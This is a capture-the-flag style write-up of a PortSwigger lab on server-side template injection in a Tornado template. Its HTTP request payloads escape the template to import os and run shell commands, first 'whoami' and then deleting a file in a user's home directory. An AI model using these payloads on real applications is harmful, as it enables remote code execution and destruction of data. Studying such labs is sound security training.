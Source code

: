 
# Basic server-side template injection (code context)

This lab is vulnerable to server-side template injection due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter

Hint: Take a closer look at the "preferred name" functionality.


---------------------------------------------

References: 

- https://portswigger.net/web-security/server-side-template-injection/exploiting




![img](images/Basic%20server-side%20template%20injection%20(code%20context)/1.png)

---------------------------------------------

It is possible to update the email and set a preferred name:





![img](images/Basic%20server-side%20template%20injection%20(code%20context)/2.png)
![img](images/Basic%20server-side%20template%20injection%20(code%20context)/3.png)


If you change it to the nickname, in the comments you see H0td0g:



![img](images/Basic%20server-side%20template%20injection%20(code%20context)/4.png)


```
POST /my-account/change-blog-post-author-display HTTP/2
...

blog-post-author-display=user.nickname}}{{2*2}}&csrf=PdLe58H5wvdQEv1PtPmQOJMvRz3krZgs
```





![img](images/Basic%20server-side%20template%20injection%20(code%20context)/5.png)
![img](images/Basic%20server-side%20template%20injection%20(code%20context)/6.png)


```
POST /my-account/change-blog-post-author-display HTTP/2
...

blog-post-author-display=user.nickname}}{%+import+os+%}{{os.popen("whoami").read()}}&csrf=PdLe58H5wvdQEv1PtPmQOJMvRz3krZgs
```





![img](images/Basic%20server-side%20template%20injection%20(code%20context)/7.png)
![img](images/Basic%20server-side%20template%20injection%20(code%20context)/8.png)


``` 
POST /my-account/change-blog-post-author-display HTTP/2
...

blog-post-author-display=user.nickname}}{%+import+os+%}{{os.popen("rm+/home/carlos/morale.txt").read()}}&csrf=PdLe58H5wvdQEv1PtPmQOJMvRz3krZgs
```



![img](images/Basic%20server-side%20template%20injection%20(code%20context)/9.png)
